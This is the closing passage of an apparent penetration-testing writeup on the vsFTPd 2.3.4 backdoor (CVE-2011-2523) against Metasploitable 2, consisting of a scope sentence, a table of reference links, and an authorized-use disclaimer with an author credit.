This writeup serves as a comprehensive documentation of the attack lifecycle, from initial network discovery through complete system compromise, following industry-standard penetration testing methodologies.

---

## 📖 References

| Resource | Link |
|:---------|:-----|
| CVE-2011-2523 | https://nvd.nist.gov/vuln/detail/CVE-2011-2523 |
| vsFTPd Backdoor Analysis | https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html |
| Metasploit Module | https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/ |
| Metasploitable 2 | https://docs.rapid7.com/metasploit/metasploitable-2 |
| OWASP Testing Guide | https://owasp.org/www-project-web-security-testing-guide/ |

---

<div align="center">

**⚠️ DISCLAIMER**

*This writeup is intended for educational and authorized security testing purposes only. Unauthorized access to computer systems is illegal. Always obtain proper written authorization before conducting any penetration testing activities.*

---

*Written with 🔐 by Goraya | Cybersecurity Researcher & Penetration Tester*

</div>
